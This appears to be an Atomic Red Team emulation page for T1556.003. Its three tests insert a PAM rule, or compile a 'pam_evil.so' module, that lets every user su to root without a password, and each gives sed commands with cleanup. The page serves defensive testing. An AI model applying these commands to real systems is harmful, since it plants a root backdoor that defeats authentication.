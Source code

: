 ```yaml
---
tags: [T1556_003, atomic_test]
filename: "[[T1556.003 - Modify Authentication Process- Pluggable Authentication Modules]]"
---
```

# T1556.003 - Modify Authentication Process: Pluggable Authentication Modules

## Atomic Test #1 - Malicious PAM rule
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 1|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #2 - Malicious PAM rule (freebsd)
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** b17eacac-282d-4ca8-a240-46602cf863e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 8|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "" "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "" "/#{pam_rule}/d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #3 - Malicious PAM module
Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient /tmp/pam_evil.so|
| index | Index where the rule is inserted. | integer | 1|
| path_to_pam_module_source | Path to PAM module source code. | path | PathToAtomicsFolder/T1556.003/src/pam_evil.c|
| path_to_pam_module | Path to PAM module object | path | /tmp/pam_evil.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```



#### Dependencies:  Run with `sh`!
##### Description: The PAM development library must be installed to build the PAM module
##### Check Prereq Commands:
```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```
##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})
##### Check Prereq Commands:
```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```




<br/>
